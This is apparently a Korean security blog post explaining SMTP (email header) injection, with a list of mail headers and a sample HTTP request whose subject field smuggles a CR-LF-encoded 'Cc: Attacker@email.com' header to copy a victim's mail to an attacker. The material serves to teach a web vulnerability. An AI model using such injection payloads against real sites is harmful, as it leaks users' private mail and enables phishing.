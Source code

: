 ```yaml
---
layout: single
title: SMTP Injection(Email injection)
categories: Web-vuln
tag: [SMTP Injection, Email injection, web, web vulnerability, injection]
toc: true
author_profile: false
---
```


# SMTP란 무엇일까?

> SMTP란 단순 전자우편 전송 프로토콜로서 대부분의 Email 소프트웨어 들이 사용하는 프로토콜이다. 보통 웹 어플리케이션에서 메일전송과 관련된 기능 및 API 는 SMTP 프로토콜을 통해 이루어진다.

# SMTP 를 통한 Injection??
웹페이지 내에서 이메일 전송 기능을 사용할 때 송/수신자 내용 제목 등등의 관련 양식을

**<u style="color:red;">SMTP 헤더에 포함</u>**시켜 전송하게 된다. 이 때 요청 **<u style="color:red;">헤더를 조작(Injection)</u>**을 통해서 공격자의 메일로 추가 전송을 시킬 수 있다.<br><br>
예를 들어 패스워드 변경후의 내용과 같은 민감한 정보가 수신자의 메일로 넘어갈 때 공격자의 메일정보를 요청헤더에 추가시켜 민감정보가 노출될 수 있다.<br>
이러한 헤더는 웹 서버의 이메일 라이브러리에 의해 해석되고 결과 SMTP 명령으로 변환된 다음 SMTP 서버에서 처리된다.

# SMTP Header
SMTP의 HTTP 요청 헤더를 조작 하여 공격을 수행할 수 있다고 소개했다. 그럼 SMTP 에서
사용되는 요청 헤더의 종류는 어떤것들이 존재할까?<br>
대표적으로 잘 알려진 헤더는 아래와 같다.

<div class="notice">
- From<br>
    &nbsp;&nbsp;&nbsp;&nbsp;- 메시지를 보내는 사람의 ID<br>
- Resent-From<br>
    &nbsp;&nbsp;&nbsp;&nbsp;- 메시지를 전달한 사람<br>
- Reply-To<br>
    &nbsp;&nbsp;&nbsp;&nbsp;- 응답을 보낼 사서함을 나타내는 메커니즘<br>
- Resent-Reply-To<br>
    &nbsp;&nbsp;&nbsp;&nbsp;- 회신을 전달해야 하는 사람<br>
- Return-Path<br>
    &nbsp;&nbsp;&nbsp;&nbsp;- 메시지 발신자에 대한 주소 및 경로에 대한 결정적 정보<br>
- Sender<br>
    &nbsp;&nbsp;&nbsp;&nbsp;- 메시지를 보낸 에이전트의 인증된 ID (사람, 시스템, 프로세스등)<br>
- Resent-Sender<br>
    &nbsp;&nbsp;&nbsp;&nbsp;- ㅁ메시지를 재전송한 에이전트의 인증된 ID<br>
- To<br>
    &nbsp;&nbsp;&nbsp;&nbsp;- 메신지의 기본 수신자<br>
- <u style="color:red;">Cc(참조)</u><br>
    &nbsp;&nbsp;&nbsp;&nbsp;- 메시지의 보조 수신자<br>
- <u style="color:red;">Bcc(숨은참조)</u><br>
    &nbsp;&nbsp;&nbsp;&nbsp;- 메시지의 추가 수신자
</div>

💡 **<u style="color:red;">SMTP 의 Header을 조작하기 위해 CR-LF Injection 을 활용하여 공격을 수행할 수 있다.</u>**

<div class="notice">
POST /emailtest HTTP/1.1<br>
<br>
'''<br>
<br>
subject=Hello+Test
</div>

위와 같이 subject 값을 받아서 관리자 혹은 특정 사용자에게 메일을 전송하는 기능이 존재하는
웹 사이트를 식별했다고 가정하자.<br><br>

해당 로직에서 SMTP의 취약한 부분이 존재하며, CR-LF 주입이 가능하다면
아래와 같이 값을 조작하여 Header 을 조작할 수 있다. 즉 송/수신자 혹은 내용등을 임의로 조작
할 수 있다는 것이다. 직 **<u style="color:red;">피싱</u>**메일로도 변질이 가능하다는 것이다.

# 공격 표면
특정 요청 혹은 로직에 의해 **<u style="color:red;">이메일기능</u>**이 적용되어, 이메일 전송 기능이 존재한다면, SMTP Injection의 잠재적 공격 표면이 될 수 있다.

## Cc 및 Bcc 조작
참조 및 숨은참조라는 뜻으로, 수신받는 사용자를 추가 시킬 수 있는 헤더이다.

<div class="notice">
POST /emailtest HTTP/1.1<br><br>

'''<br><br>

subject=Hello+Test%0d%0aCc: Attacker@email.com
</div>